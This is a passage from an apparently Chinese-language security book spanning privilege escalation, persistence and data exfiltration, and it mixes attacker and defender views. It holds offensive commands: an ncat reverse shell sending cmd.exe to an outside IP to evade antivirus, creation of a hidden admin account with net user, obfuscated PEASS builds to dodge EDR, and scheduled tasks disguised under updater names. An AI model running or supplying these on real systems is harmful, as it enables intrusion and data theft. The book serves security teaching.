该脚本有三种不同的版本，分别用于 Linux、MacOS 和 Windows。这些脚本被相应地命名为 LinPEAS、MacPEAS 和 WinPEAS，对应各自的操作系统。随着新提权向量的发现，这些脚本会持续更新，始终包含最新、最强大、最前沿的向量。

PEASS 工具能够识别大量提权向量，同时也会向屏幕输出大量信息。就像使用其他程序一样，请深呼吸，花点时间阅读输出内容。虽然会有大量信息呈现，但只要你逐行阅读，就不会感到不知所措。幸运的是，PEASS 工具还会以彩色方式输出信息，这使分析变得更加容易。


**图 7.42** 在 Linux 机器上运行 LinPEAS。

如果我们想展现更高级的技巧，可以自行编译 PEASS 的混淆版本源代码。这有助于降低被 Windows Defender 检测到的几率，并提高规避端点检测与响应（EDR）工具的可能性。PEASS 项目有一个专门页面，介绍如何编译该工具的混淆版本。

此外，还有一些解析工具可以将 PEASS 输出转换并生成 JSON、HTML 和 PDF 格式的数据。要将 PEASS 输出从文本转换为 PDF，我们必须先将文本输出转换为 JSON。PEASS-ng 仓库中提供了帮助我们实现这一目标的工具。在 `parsers` 文件夹中，有一组 Python 脚本可以转换基于文本的输出。但请记住，我们必须先保存脚本输出，然后才能导入它——我们可以通过将 STDOUT 重定向到带有 `>` 字符的文件来实现这一点。要将输出保存到文件，我们可以使用类似于下面的命令进行重定向。要在生成输出时查看它，我们还可以使用 `tee` 命令将输出保存到文件并同时查看。

```bash
./linpeas.sh > linpeas.out        # Save output to file
./linpeas.sh | tee linpeas.out     # Save output to file and see it
```

程序运行结束后，我们将使用 `peas2json.py` 程序将 PEASS 基于文本的输出转换为 JSON。我们调用该程序时需要传入保存的文本文件名和输出文件名。

```bash
python3 peas2json.py </path/to/executed_peass.out> </path/to/peass.json>
python3 peas2json.py ~/linpeas.out linpeas.json
```

一旦我们有了 JSON 文件，就可以调用其他程序来生成 HTML 文件或 PDF 文件。这两个操作都可以使用以下命令执行：

```bash
python3 json2pdf.py </path/to/peass.json> </path/to/peass.pdf>
python3 json2html.py </path/to/peass.json> </path/to/peass.html>
```


**图 7.43** 使用 PEASS 生成的 HTML 报告示例页面。

这会生成更简单、更易读的报告，甚至可以包含在渗透测试报告中作为附录。请记住，在交付报告时，我们需要交付的是分析，而不仅仅是工具的输出。

## 持久化

在环境中，我们可以通过多种不同的方式持续持久化，以确保维持访问权限。在利用漏洞成功之后，攻击者需要维持最初建立的立足点。这些技术用于确保我们的访问权限能够在系统重启、账户更改或进程重启后仍然保留。请记住，我们对这些攻击了解得越多，就越能够模拟真实威胁行为者。此外，在事件响应场景中，我们也知道应该关注什么以及在哪里进行排查。

本章后面将进一步讨论的 MITRE ATT&CK 框架，有一个专门针对持久化的战术（TA0003）。¹⁷ 查看该战术，我们可以看到各种用于在环境中维持访问权限的技术。在本节中，我们将选取其中一些技术，并介绍如何应用它们。

### 添加账户

确保在环境中持久化的最基本方法是在受影响组件中创建一个额外的账户。这有助于确保，如果被利用的账户被发现，我们仍然可以继续访问系统。这种技术可以借助合法的管理工具来实现，例如 Windows Server 上使用的 Active Directory 用户和计算机模块。

对于 Windows 机器，打开 Microsoft 管理控制台（MMC）工具后，我们可以使用“本地用户和组”管理单元来访问所需工具。通过在运行控制台中输入 `mmc` 打开 MMC 程序，然后点击 **文件 > 添加/删除管理单元...**。

然后点击 **确定** 按钮，关闭窗口并添加我们的新管理单元。


**图 7.46** 将“本地用户和组”管理单元添加到我们的窗口中。

现在我们已经添加了管理单元，可以查看组中的用户。我们可以在窗口中间区域右键单击，选择“新用户”。这将弹出另一个窗口，让我们向系统添加新用户。


**图 7.47** 添加管理单元后，我们可以在中间窗格右键单击，然后点击“新用户”。

创建新用户后，我们可以将其添加到本地计算机上的“管理员”组，或 AD 环境中的“域管理员”组。此操作可确保，如果原始账户被删除或撤销，我们仍能在环境中有一个活跃账户。

若要从命令行添加新账户，我们可以使用 `net` 命令。这个工具允许我们添加新账户，然后将该账户添加到其他特权组，例如 Administrators。以下两条命令将为我们完成这些操作：

```text
C:\Users\Administrator>net user newguy newpass /add
The command completed successfully.
```

```text
C:\Users\Administrator>net localgroup administrators newguy /add
The command completed successfully.
```

```text
C:\Users\Administrator>net localgroup administrators
Alias name    administrators
Comment       Administrators have complete and unrestricted access to
the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
chris
newguy
The command completed successfully.
```

我们完成的工作是在机器上创建了一个名为 `newguy` 的新用户账户，其密码为 `newpass`。账户创建成功后，我们将其添加到本机的本地组，然后验证新用户账户确实在该组中。这确保了我们可以在需要时使用该账户进行后续活动！

使用这种技术也很容易在现代网络上被检测到。因此，该技术应仅用于其他技术可能不那么有效或可靠的环境中。许多 EDR 工具和检测系统会将新的管理员账户标记为可疑活动，以供人工审查。

### 启动或登录初始化脚本

启动或登录初始化脚本会在系统或用户初始登录时自动运行。这是确保用户使用设备时我们仍能保持访问权限的有效方法。实现这一目标有几种不同方式，例如将脚本放置在特定的注册表键中。对于 Linux 机器，将反向 shell 添加到 RC 脚本中，每次启动 shell 时都会运行。

### 外部远程服务

添加额外的远程服务以继续访问环境，是维持访问权限的有效方法。正如**第 4 章**所讨论的，我们可以利用 WireGuard 建立反向隧道，并跨 NAT 环境保持访问。这一特定技术使我们能够穿越 NAT 边界，并确保能够融入现有流量。

另一种有效的方法是创建防火墙规则，允许访问敏感服务（如 RDP）。有远见的攻击者还会创建一个特定的 IP 或 CIDR，使其也能访问该服务，从而限制其他人对机器的访问。有权访问服务的人越多，由于针对这些服务的攻击数量和类型增加，被检测到的可能性就越大。

## 防御者视角

尽管攻击者在系统中移动和提升权限的方式似乎数不胜数，但防御者在检测和清除对手方面也有自己的优势。例如，本章到目前为止讨论了许多有据可查的工具和技术，可用于搜索这些错误配置。像未加引号的服务路径和账户描述中的密码这样的小问题，是常见的发现，并且易于修复。

除了本章已经讨论过的工具之外，还有几个社区项目绘制了攻击路径，并对攻击执行方式及缓解措施进行了分类。这些项目提供了关于如何测试这些弱点的明确指导，甚至展示了威胁行为者如何利用它们在整个环境中进行移动。遵循这些项目，可以按照已知威胁行为者使用的明确方式来测试网络，具有清晰且有效的价值。

## 欢迎来到矩阵

MITRE ATT&CK 框架可用于帮助分类和确定系统中发生的对手行为。该项目始于 2018 年，旨在为组织的攻击行为标准化词汇。通过提供清晰的 ATT&CK ID，任何人都可以搜索该 ID 以获取更多说明信息。

ATT&CK 矩阵是 MITRE 提供的一份文档，展示了 ATT&CK 项目中所有的 ID 和子 ID。企业矩阵展示了大量数据，但同样要确保不要被信息淹没。这些信息根据攻击的发展方式被分为几个部分。


**图 7.48** MITRE ATT&CK 企业矩阵的概览截图。用于对攻击者模式进行分类以帮助防御。

点击特定 ID 会显示关于攻击向量的详细信息，包括其利用方式、相关工具，甚至已知利用该攻击向量的知名威胁行为者的参考资料。在为客户撰写关于该攻击向量在真实场景中如何被利用的报告时，本节中的信息非常宝贵。

### 利用公网应用

攻击者可能会尝试利用面向互联网的计算机或程序中的弱点，通过软件、数据或命令来导致非预期或意外的行为。系统中的弱点可以是缺陷、故障或设计漏洞。这些应用通常是网站，但也可能包括数据库（如 SQL）、标准服务（如 SMB 或 SSH）、网络设备管理协议（如 SNMP 和 Smart Install），以及任何其他具有互联网可访问开放套接字的应用程序，如 Web 服务器和相关服务。[1][2][3][4][5] 根据所利用的缺陷不同，这可能包括利用防御规避。

如果应用程序托管在基于云的基础设施上和/或被容器化，那么利用它可能会导致底层实例或容器受损。这可能使攻击者能够访问云或容器 API、通过逃逸到宿主机来利用容器宿主机访问权限，或利用薄弱身份和访问管理策略。

| 字段 | 值 |

|---|---|

| ID | T1190 |

| 子技术 | 无子技术 |

| 战术 | 初始访问 |

| 平台 | 容器、IaaS、Linux、网络、Windows、macOS |

| 贡献者 | Praetorian；Yossi Weizman，Azure Defender 研究团队 |

| 版本 | 2.3 |

| 创建时间 | 2018年4月18日 |

| 最后修改 | 2022年4月19日 |

**图 7.49** 查看技术的详细信息。这里显示了 ID、适用平台以及如何被利用。

利用 MITRE ATT&CK 中记录详尽的信息，为防御者创造了一个有效的环境，使他们能够在问题被利用之前修复问题。ATT&CK 矩阵也会持续更新，展示最新发现的威胁和信息。

### 原子红队

原子红队是一组特定的操作和命令，用于测试 MITRE ATT&CK 框架中的技术 ID。该项目直接为防御者提供了运行与 ATT&CK ID 直接对齐的脚本或工具的方法。不要被项目名称中的“红队”所迷惑，因为它为防御者提供了类似紫队的能力。在隔离已知威胁的 ATT&CK ID 后，我们可以使用原子红队选择适当的原子测试，并测试它们如何执行以及如何被识别。该网站可在 `https://atomicredteam.io` 上访问。

例如，查看 `T1056.002` ID 会显示“输入捕获：GUI 输入捕获”的页面。该 ID 指定使用常见的 OS GUI 组件来提示用户输入密码和凭据，从而模仿合法组件。我们不仅拥有对该 ID 的出色解释，还有一组 PowerShell 代码可供运行。这为我们提供了一种开始理解如何根据 ID 来运行这些类型的方法。


**图 7.50** T1056.002 的原子测试，提供了特定的 PowerShell 代码来测试该 ATT&CK ID。

有许多不同的原子测试可供查阅和使用。这些测试旨在帮助防御者测试他们的环境，不仅了解它们如何工作，还了解如何检测和防御它们。

## 速查表

为了帮助管理本章中的信息，可以使用下面包含的速查表，根据战术需求收集信息。

### 获取立足点后识别 Linux 机器信息

```
whoami                         # 我们是谁？
hostname                       # 这是哪台机器？
ip a                           # 这里有哪些接口？
netstat -tuna                  # 哪些端口开放？本地主机？
ps awfux                       # 哪些进程在运行？
```

```powershell
Get-ADUser -Filter {Description -like "*"} -Properties * | Select-Object
samAccountName, Enabled, Description  # 获取所有 AD 用户列表

Select-String -Pattern p.ss, pw, pwd  # 不区分大小写地过滤
                                      # 密码的正则表达式

Get-ADGroup -Filter
```

### PowerShell 入门

```powershell
Find-Command <string>                 # 根据字符串定位命令
Get-Help <module>                      # 读取特定模块的帮助
Get-Member                            # 读取对象的属性和方法。
                                      # 有助于理解如何使用对象。
```

## 总结


攻击者如果获得了机器上的初始立足点，就可以利用该访问权限继续提升至更高权限。有多种方式可以实现这一点，并依赖于几种不同的向量，这些向量可以利用技术漏洞或人为错误。了解攻击者在获得系统访问权限时的思考方式，对于在检测和响应活动发生之前限制损害程度至关重要。

对于有抱负的渗透测试人员来说，权限提升在实践中学起来和用起来可能很困难。幸运的是，互联网上有许多资源可以用来获得这些攻击的实际操作经验。HackTheBox 和 TryHackMe 都有许多依靠获取立足点并提升到管理访问权限的机器。最棒的是？这些机器的 writeup 会发布出来，让你深入了解如何解决这些机器以及作者的思考过程。在测试过程中做大量笔记，以帮助你在阅读 writeup 之前识别遇到的障碍，以及如何在将来避免这些障碍。

## 注释

1. https://learn.microsoft.com/en-US/windows/security/identity-protection/access-control/local-accounts#default-local-system-accounts
2. https://web.archive.org/web/20160610153950/http://www.cs.yale.edu/homes/arvind/cs422/doc/unix-sec.pdf
3. https://linuxize.com/post/etc-shadow-file/
4. https://learn.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
5. https://github.com/samratashok/ADModule
6. https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups
7. https://gtfobins.github.io/
8. https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging
9. https://redsiege.com/tools-techniques/2020/04/user-enumeration-part-3-windows/
10. https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging#enable-kerberos-event-logging-on-a-specific-computer
11. https://support.microsoft.com/en-us/topic/microsoft-tcp-ip-host-name-resolution-order-dae00cc9-7e9c-c0cc-8360-477b99cb978a
12. https://attack.mitre.org/techniques/T1135/
13. https://github.com/Pennyw0rth/NetExec
14. https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN
15. https://attack.mitre.org/software/S0521/
16. https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe#instructions-to-compile-you-own-obfuscated-version
17. https://attack.mitre.org/tactics/TA0003/

# 8 数据外泄（被攻破）

## 引言

在本章中，我们将探讨数据是如何从网络中被窃取的。你可以通过三种方式阅读本章：

- 1. 我是一名攻击者，我想了解一些窃取数据的好技术。
- 2. 我是一名分析师，我想了解更多有关在哪里寻找外泄证据的信息。
- 3. 我对网络安全感兴趣，想知道黑客如何以及为什么窃取数据。

重要的是要明白，黑客是有目的的。黑客攻击通常由以下因素驱动：

- 经济利益
- 政治动机
- 报复

也有一些人是出于好奇或展示技能，但通常黑客攻击都涉及获取金钱。包括美国在内的国家（被称为“国家行为者”）也积极从事黑客攻击活动。因此，某些为本国工作的个人被允许进行黑客攻击，因为这被合理化为与国家安全的使命相关。几乎所有国家都会经常从事间谍活动以保护其公民。

就美国而言，国家安全局（NSA，被戏称为“No-Such Agency”）从事进攻性网络行动以保护国家。NSA总部位于马里兰州安妮阿伦德尔县的米德堡。我住在大门14英里外，这是一个巨大的设施，在巴尔的摩华盛顿国际大道上拥有自己的出口（请不要走那个出口，否则你可能会被扣留和搜查）。对我来说，NSA是一个很好的工作场所，是该地区最大的本地雇主之一，也是马里兰州成为网络安全中心的原因之一。在NSA，工作非常稳定，大多数为政府工作的人会在那里度过整个职业生涯。NSA还通过其“国家安全局学术卓越中心”的指定，在大学网络安全课程中发挥着重要作用。马里兰大学全球校区（UMGC）就是这些中心之一，这为大学带来了许多好处，例如能够参加“攻破大楼”竞赛。


**图8.1** 美国国家安全局从事进攻性网络行动。

就美国而言，NSA通过在其课程符合特定标准时对其项目进行认证，来影响大学和学院的网络安全学术项目。有三个国家网络安全学术卓越中心（NCAE-C）项目：

- 网络防御（CAE-CD）
- 网络研究（CAE-R）
- 网络作战（CAE-CO）


**图8.2** 美国国家安全局从事进攻性网络行动。

网络作战本质上是进攻性的，更侧重于渗透测试、红队和漏洞利用。网络防御则侧重于蓝队相关任务，这些任务有助于保护和保障系统安全。网络研究则更多涉及网络课程的博士级研究。美国通过国家科学基金会（NSF）的资金支持，鼓励从中学到博士项目的学生参与网络相关领域。进入军队的人通常最终会担任网络工作角色，网络正成为各军种军事行动的重要组成部分。

如果你想攻击美国以外的组织或国家，你最好成为美国军队或NSA的一员，并获得主管的授权。美国不允许个人进行流氓黑客攻击，即使他们针对的是敌对外国国家。如果你在美国从事这种邪恶活动（我可没有），你可能会预见到执法机构或某个“三个字母的机构”来你家拜访。有些人认为，美国以外的其他国家实际上允许甚至鼓励其公民从事这种非法活动。就美国而言，其执法机构对处于美国管辖范围之外的这些个人几乎无能为力。除非攻击者所在国政府同意引渡，否则美国对攻击者几乎没有追索权。如果美国能够归因并确定攻击是“国家资助的”且来自敌对国家，那么他们可以尝试对该国施加政治压力，但他们往往可能否认任何责任。

公司最不想失去的是他们的知识产权（IP）。想想可口可乐的配方或肯德基的食谱。想想处方药的一些配方或苹果设备的图纸可能有什么价值。对于诺斯罗普·格鲁曼、波音或洛克希德·马丁这样的公司来说，战斗机设计图的丢失不仅可能影响其股票价值，还可能影响国家安全。像战斗机蓝图、作战计划和士兵的实际位置这样的信息，可能会危及人们的生命。


图8.5 死星蓝图。

我们在本章和其他章节中讨论过的事情之一是国家行为或国家资助的黑客攻击。为什么一个国家会想要侵入承包商的系统并窃取其知识产权？如果你想一想这些国防部承包商，他们通常拥有一大批经验丰富、薪酬高昂的员工。他们的员工享有健康和牙科福利、假期、带薪病假以及学费报销等其他福利。与其以高昂的成本雇佣最优秀、最聪明的人才来按极其昂贵的合同开发战斗机，为什么不训练一些黑客侵入美国的一家高级承包商并从他们那里窃取知识产权呢？虽然这当然是一种不道德的方法，但总体而言绝对更便宜。


图8.6 文章链接：https://www.nydailynews.com/2015/01/20/chinese-hackers-stole-f-35-fighter-jet-blueprints-in-pentagon-hack-edward-snowden-documents-claim/

## 入侵的原因

有时，入侵可能源于常用软件，漏洞被公开后会产生一种竞赛态势，迫使公司立即保护其系统。黑客通常会维护一个“蓄势待发的数据库”，当漏洞被公开披露时，这个数据库会给他们带来优势。这里有一个例子可以说明其工作原理。假设一个黑客扫描一个网站，发现它使用了特定版本的`Apache`，但该版本没有已知的漏洞利用方法。黑客可以保留一份使用该版本的目标列表，然后当漏洞公开时，他们可以查看列表找到使用该软件的人并对其进行利用。


**图8.7** `Apache`服务器的版本信息。

如果公司使用的是存在漏洞的软件，如`log4j`或特定版本的`Apache Struts`，他们就有被入侵的风险。曾经，`log4j`漏洞对大量联网系统构成了严重的安全风险。我的许多朋友和同事在CrowdStrike和Booz Allen等公司工作，在`log4j`漏洞被发现后的几个月里，他们忙于进行事件响应、计算机取证和修复。`Apache Struts`导致了Equifax被入侵，进而导致大多数美国人的社会安全号码被泄露。具体来说，是`CVE-2017-5638`漏洞导致了这次入侵。


**图8.8** Synopsys关于`Apache Struts` `CVE-2017-5638`漏洞的博客文章。

有时，公司和组织非常重视网络安全，并努力保持对其系统的监控、更新、安全和可靠。即使有所有这些保障措施，有时第三方或供应链攻击仍然可能导致入侵。在一家大型全国性零售商的事件中，攻击者通过由一家小型承包商维护的暖通空调系统进入了网络。这就是业界所说的“零信任”发挥作用的地方。当公司使用第三方、合并或收购其他公司时，其安全策略和保障措施可能面临风险。当发生收购或合并时，如果新系统得到了妥善保护，公司仍可能变得脆弱。


**图8.9** 文章链接：[https://krebsonsecurity.com/2014/02/target-hackers-broke-in-via-hvac-company/](https://krebsonsecurity.com/2014/02/target-hackers-broke-in-via-hvac-company/)。

我们讨论了易受攻击的软件、并购以及第三方供应商带来的威胁，这些都可能让公司和组织留下未曾预料到的安全漏洞。此外还有供应链攻击的威胁，即一家公司使用的软件来自某个受信任的供应商，而该供应商后来遭到入侵。SolarWinds 就是这种情况，它拥有庞大的客户群使用其网络管理和监控软件。这些被归因于俄罗斯的国家级攻击者入侵了 SolarWinds，然后在软件更新中植入了后门程序；当客户部署这些带有恶意代码的更新时，他们也被入侵了。


**图 8.10** 文章链接：[https://www.businessinsider.com/solarwinds-hack-explained-government-agencies-cyber-security-2020-12](https://www.businessinsider.com/solarwinds-hack-explained-government-agencies-cyber-security-2020-12).

那么，为什么不一直更新所有软件呢？嗯，一般来说，你应该这样做。而且有时你甚至被迫这样做，比如 iPhone 或 XBOX。XBOX 引出了一个有趣的难题：为什么微软强制要求你更新其游戏主机才能使用，却不对使用 Microsoft Windows 的最终用户施加同样的要求呢？嗯，Microsoft Windows 运行在无数电脑厂商的硬件平台上，基本上需要支持无限多种不同的硬件配置。这就是 MacBook Pro、iPhone 和 XBOX 更容易提供支持的原因，因为厂商同时控制硬件和操作系统（OS）。很多时候，更新也许能保护你的系统，但也可能破坏你的应用程序。对 IT 人员来说，这是一场持续的猫鼠游戏：他们要不断更新系统，而且几乎每次更新后都需要对应用程序进行功能测试。这种持续不断的战斗，正是网络安全职业在撰写本文时看起来相当稳定的一个重要原因。

## 数据外泄 101

现在我们来讨论黑客如何窃取数据，以及他们使用哪些技术来实施这些行为。首先，让我们讨论黑客应该瞄准什么，以及“最好的东西”可能在哪里。如果攻击者具备入侵系统的技能，他们还需要知道“战利品”可能在哪里。

```text
meterpreter > ls
Listing C:\
```

| 模式 | 大小 | 类型 | 上次修改时间 | 名称 |
|---|---|---|---|---|
| 40777/rwxrwxrwx | 4096 | dir | 2008-01-19 04:34:18 -0500 | $Recycle.Bin |
| 100444/r--r--r-- | 8192 | fil | 2012-09-10 22:01:39 -0400 | BOOTSECT.BAK |
| 40777/rwxrwxrwx | 8192 | dir | 2012-09-10 22:01:37 -0400 | Boot |
| 0000/--------------- | 0 | fil | 1969-12-31 19:00:00 -0500 | Documents and Settings |
| 40777/rwxrwxrwx | 4096 | dir | 2008-01-31 04:40:52 -0500 | PerfLogs |
| 40555/r-xr-xr-x | 4096 | dir | 2008-01-19 04:40:52 -0500 | Program Files |
| 40777/rwxrwxrwx | 4096 | dir | 2008-01-19 04:40:52 -0500 | ProgramData |
| 40777/rwxrwxrwx | 4096 | dir | 2012-09-10 21:02:20 -0400 | System Volume Information |
| 40555/r-xr-xr-x | 4096 | dir | 2008-01-19 04:45:53 -0500 | Users |
| 40777/rwxrwxrwx | 16384 | dir | 2008-01-19 04:40:53 -0500 | Windows |
| 100444/r--r--r-- | 333203 | fil | 2012-01-19 04:31:37 -0400 | bootmgr |
| 40777/rwxrwxrwx | 0 | dir | 2015-01-31 19:39:04 -0500 | inetpub |
| 100666/rw-rw-rw- | 2460368896 | fil | 2012-09-10 20:02:20 -0400 | pagefile.sys |
| 40777/rwxrwxrwx | 4096 | dir | 2012-09-12 18:40:53 -0400 | share |
| 40777/rwxrwxrwx | 12288 | dir | 2015-01-31 19:25:55 -0500 | xampp |

**图 8.11** `Meterpreter` 目录列表。


访问 Windows 系统时，攻击者通常会检查驱动器根目录，然后会看到文件系统中可以导航的多个路径。有时时间非常宝贵，没有时间去学习如何浏览文件系统并找到要找的东西。如果看到图 8.11 中 Meterpreter 列表显示的这些文件夹，你会先去哪里？面对这些选项时，有人建议进入 `Windows` 目录，但那里存储的是操作系统文件。在过去 25 年制造的几乎所有 Windows 版本上，你都会看到 `Windows` 目录，所以它通常不是攻击者寻找有价值东西的地方（尽管它可能是攻击者隐藏恶意软件的好地方）。`Program Files` 也不值得攻击者翻看，因为它只会列出部分已安装的应用程序，如 Microsoft Office、VMware Workstation、Wireshark 和其他软件工具。`Users` 文件夹则可能值得关注，具体取决于操作系统是什么。如果是客户端操作系统，如 Windows 11 或 Windows 10，里面会有文档、图片、浏览器历史记录，以及典型用户可能存储在桌面上的其他常见内容。如果是服务器操作系统，如 Windows Server 2022 或 Windows Server 2019，最终用户通常不会在服务器上保存大量个人文件，因为服务器很可能由多个拥有管理权限的人维护。出于安全目的，最好不要用服务器浏览互联网；服务器甚至自带一些针对浏览器的增强型内置保护设置。另一个看起来值得检查的目录是 `inetpub`。`inetpub` 目录（默认情况下）存储 Microsoft Internet Information Services（IIS）服务器的文件。通常你会看到该文件夹中有一个 `wwwroot` 目录，其中保存着最终用户访问网站时要发送给他们的网页。此外还有一个 FTP 根目录（即使在 Server 2022 上），如果有人安装了文件传输协议（FTP）服务器，该目录就会出现。由于这些目录可能包含网络上任何人都能访问的文件，因此通常不是专有或重要信息的存放位置。不过，这些目录非常适合用于数据外泄（后面会介绍）。

最有可能找到有价值内容（如文档和其他包含公司或组织相关信息的文件）的地方是网络共享。在这种情况下，共享文件夹在网络上被用作一个供整个企业用户协作共享和存储文件的地方。黑客想要的是公司不希望进入公共领域的独特信息。在我看来，知识产权（IP）、源代码、蓝图、秘密配方、处方配方或其他类型的商业机密被窃取，几乎是最糟糕的情况了。数据丢失和泄露事件需要向股东、员工和公众公开披露，而且州、国家和国际层面的披露法律正变得越来越重要。不得不披露这类泄露事件非常尴尬，但不幸的是，这类事件也相对常见。

为了窃取数据，黑客经常利用 Metasploit 框架中的一些工具。我从最早的版本开始使用 Metasploit，甚至还有机会与创建 Metasploit 的 H.D. Moore 聊过几次。Metasploit 是免费的，并包含在 Kali Linux 发行版中。


**图 8.12** Metasploit 框架。


**图 8.14** 加密的 Meterpreter 流量。

当黑客使用任何类型的加密传输时，将极难精确定位并可靠地指出哪些数据被带出（外泄）网络。分析师可以提供目标 IP 地址是什么以及有多少数据离开网络的信息，但无法确切说明被窃取的内容。这里要指出的另一点是，在我使用的示例中，检查流量时我知道攻击者和受害者的 IP 地址。一些大型组织可能在短时间内有 TB 级数据经过其网络。而且并非所有组织都会收集网络流量（PCAP 文件）。要筛选大量数据可能是一项艰巨的任务，Wireshark 甚至无法很好地处理非常大的 PCAP 文件，因此即使在检查之前，你也必须先过滤文件。通过易失性数据收集（在第 9 章“我被入侵了吗？如何判断？”中介绍）获知攻击者的 IP 地址，当然是一个很好的过滤起点。大量公司或组织的数据被外泄到朝鲜、中国或其他对手国家的 IP 地址，确实不是什么好兆头。

如果你认为 TB 级数据从网络中外泄是异想天开，那么你应该了解一下 2009 年五角大楼发生的事。根据对攻击的分析，据信中国方面从五角大楼窃取了 TB 级数据。这些数据与 F-35 战斗机有关；机密信息被窃取后，美国军方和飞行员面临更大的风险。


**图 8.15** 从网络中泄露出的 TB 级数据（[homelandsecuritynewswire.com](http://homelandsecuritynewswire.com)）。

由于数据外传可能（而且很可能）是完全加密的，取证团队可能需要考虑检查受损系统上的数字痕迹。当我为事件响应团队工作时，我们会查找 RAR 文件，因为压缩文件再将其带出网络效率更高，也更不容易触发各种网络传感器。在我的事件响应和取证工作中，我不只是在磁盘上查找 RAR 文件。我们会使用 WinHex（很不错的工具）在 slack 空间中搜索 RAR 文件，而且大多数黑客都很聪明，会在文件被窃取后删除为外传准备的文件。


**图 8.16** 用 RAR（或 7z）打包。

你还可以检查系统上文件的 MAC（不是那个 MAC）——修改时间（Modified）、访问时间（Accessed）和创建时间（Created）。虽然你可能无法证明哪些加密数据已经离开网络，但如果存在一个存储了你的专有数据的 4 GB RAR 文件，同时你看到有 4 GB 网络流量离开你的网络，那么“推断”可能发生了什么就相当可靠了。当使用加密手段外传网络数据时，你永远无法确定发生了什么，但你完全可以通过检查磁盘、日志、用户活动和时间戳，对重要数据发生了什么做出有依据的推测。

Meterpreter 只是可以用来将数据带出网络的工具之一。有大量使用加密传输的远程访问木马（RAT）。其中许多会提供一个文件管理器，你可以通过它上传恶意软件（发送）或从网络窃取（接收）数据。你会注意到，大多数这类 RAT 用于文件传输的界面与 WinSCP 的界面类似。


**图 8.17** 远程访问木马文件管理器。

与攻击者到受害者的 Meterpreter 连接一样，大多数这类 RAT 也使用加密。和 `msfconsole` 与 `msfvenom` 一样，你可以选择希望恶意软件回连到哪个出站端口（例如 443）。大多数这类 RAT 的图形用户界面（GUI）使得浏览受害者的文件系统稍微容易一些。黑客社区中有些人对不使用任何 GUI 工具抱有非常（奇怪地）强烈的看法。由于许多此类 RAT 是在外国开发的，我可以大胆地说，海外对手使用它们毫无问题。


**图 8.18** 加密的 RAT 数据外传。

说到用于窃取数据的加密通信，如果攻击者获得了你的凭据，他们总是可以利用远程桌面连接。自从远程桌面连接首次出现在 Windows NT 4 Terminal Services 版中，我就一直在使用它。如今，你可以在 Windows 11、Windows 10、Server 2022、Server 2019 以及可追溯到 Windows XP 的许多早期操作系统上启用 RDP。远程桌面连接允许你连接到另一台桌面，通常使用端口 3389（默认），然后你可以通过 GUI 管理和操作这台机器。一些组织的防火墙允许该端口通过，如果攻击者获得了系统凭据，那就彻底结束了。凭据可以通过多种方式获得，例如撞库攻击。撞库是指用户往往在工作和个人账户上重复使用用户名和密码，而他们使用过的某个网站遭到入侵，随后这些凭据被发布到暗网、Pastebin 等地方。RDP 的一个方便功能是，你可以选择目标机器上的任何内容，然后将其复制粘贴到本地机器。微软的这个合法程序具有与 RAT 和 Metasploit 的 meterpreter 类似的上传和下载功能，但使用这种外传方法时，黑客不必担心触发杀毒软件。如果网络允许 RDP 出站，恶意内部人员就可以利用这一点将公司数据外传。


**图 8.19** 远程桌面连接。

其他外传方法包括 Google Drive、Dropbox、OneDrive 等众多选项。对于一个拥有访问权限的员工（内部威胁）来说，下载恶意文件、上传并外传其所在公司的专有数据的方法实在太多，难以防范。我听说许多案例中，员工在离职后的几分钟内其 Microsoft 账户就被锁定，无论该离职是由于裁员、解雇、辞职还是提前退休。


**图 8.20** OneDrive。

还有一些黑客用来获取系统访问权限并窃取数据的传统方法。有人可能会问，为什么黑客会使用 Linux shell 或 Windows shell，而不是使用 Meterpreter 载荷呢？

- Meterpreter 并非 Metasploit 中每个漏洞利用都可用的载荷
- Meterpreter 常常会触发杀毒软件，而反向 shell 则不会
- Meterpreter（针对 Windows）需要下载恶意的动态链接库（DLL）
- 虽然这有些勉强，但它在网络流量中的整体占用更小。
- 除了 Metasploit 之外，其他工具如 `ncat`（来自 `nmap`）也可以用来发送 shell。

我使用的命令是：`start /b cmd /c ncat 175.45.176.200 443 -e cmd.exe`


**图 8.21** 在杀毒软件运行的情况下发送到朝鲜的命令提示符。

在上面的例子中，我可以在杀毒软件（和防火墙）开启且完全更新的情况下，从内部网络中的系统向朝鲜的 IP 地址发送出站命令提示符。有时这是为了隐藏自己，有时则更重要的是轻松绕过杀毒软件。我也可以使用 `schtasks` 创建一个计划任务来建立此连接，但这确实会在计划任务文件夹中留下取证证据。黑客可以删除你的计划任务以消除这些取证证据。黑客可能会设置一个持续运行的计划任务来进行这种出站网络连接。作为攻击者，我喜欢起一些像 MicrosoftEdgeUpdateTaskMachineXX、GoogleUpdate 或其他几乎与合法计划任务的典型名称相匹配的名字。


**图 8.22** 计划任务。

虽然 Meterpreter 和许多 RAT 会对出站流量进行加密，但 Windows 和 Linux 的命令 shell 则是明文传输，这样分析人员就能看到攻击者运行的每一条命令。如果组织保存了流量，并能定位到命令 shell 流量，那么他们就能得到一些很好的线索，知道在磁盘上哪些地方寻找取证痕迹，并且更有可能判断哪些数据可能已从网络中被窃取。使用 Meterpreter 或 RAT 窃取数据，远比攻击者仅凭命令 shell 访问权限所需使用的某些技术简单得多。


**图 8.23** 反向 shell 以明文形式发送信息。

在介绍一些可用于通过命令提示符外传数据的技术之前，我们先来看看防火墙如何影响黑客的这一场景。如果防火墙不允许任何将被重定向到内部网络端口和服务上的入站流量，那么黑客要想将数据带出网络，任务就要艰巨得多。例如，如果 Windows Server 2022 是一台 Web 服务器，那么我们就能利用该 Web 服务器将数据外传。


**图 8.24** 受防火墙保护的内部网络。

让我们从更简单的情景开始：内部网络中的 Web 服务器被配置为可从互联网向公众访问（通过端口重定向）。如果是这种情况（确实可能发生），攻击者可以将专有数据复制到 Web 服务器的目录中，然后（如有必要，修改权限后）通过 Web 请求将数据带出网络。他们可能会选择将数据放在隐藏目录中（我见过这种情况），或者放在一目了然的目录中（我也见过这种情况）。尽管如果它们通过代理或 TOR 等连接，IP 地址可能会成为死胡同（参见前面的章节）。

